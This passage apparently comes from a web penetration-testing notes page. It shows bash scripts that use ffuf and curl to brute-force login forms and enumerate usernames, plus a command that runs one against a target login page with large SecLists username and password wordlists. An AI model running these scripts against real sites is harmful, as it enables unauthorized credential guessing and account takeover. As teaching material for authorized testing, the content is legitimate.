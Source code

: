 ```bash
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -X POST \
         -d "$DATA" \
         -ac -c -r \
         -mc 200 \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x sc-user-enum.sh;sudo ./sc-user-enum.sh $WEBSITE/login \
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
```

### Error Message

#### [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano em-user-enum.sh
```

```bash
#!/bin/bash

# Check if URL is provided
if [ $# -eq 0 ]; then
    echo "Usage: $0 <domain.com/login> <userlist.txt> <passlist.txt>"
    exit 1
fi

URL="$1"
USERLIST="$2"
PASSLIST="$3"

# Fetch login page HTML
HTML=$(curl -s "$URL")

# Extract the first form block (up to </form>)
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 50)

# Extract form action attribute (default to "/")
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
if [ -z "$ACTION" ]; then
    ACTION="/"
fi

# Extract form method (default to GET)
METHOD=$(echo "$FORM" | grep -oEi 'method="[^"]+"' | head -1 | cut -d'"' -f2 | tr '[:upper:]' '[:lower:]')
if [ -z "$METHOD" ]; then
    METHOD="get"
fi

```